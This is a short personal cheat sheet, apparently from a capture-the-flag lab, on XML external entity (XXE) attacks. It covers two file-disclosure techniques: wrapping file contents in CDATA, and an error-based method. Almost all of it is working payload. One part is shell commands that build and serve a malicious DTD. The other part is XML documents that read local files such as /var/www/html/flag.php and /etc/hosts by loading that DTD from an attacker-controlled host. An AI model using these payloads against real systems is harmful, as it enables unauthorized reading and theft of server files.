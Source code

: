 sometimes some file formats are not readbale through basic XXE 

we can try to force it through errors


## CDATA
on our server
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
then on the payload
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.79:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error based
not as reliable as CDATA as it may have length limitations and certain special characters may still break it

host a dtd file that contains the following payload
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

then we can our external DTD script 
```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```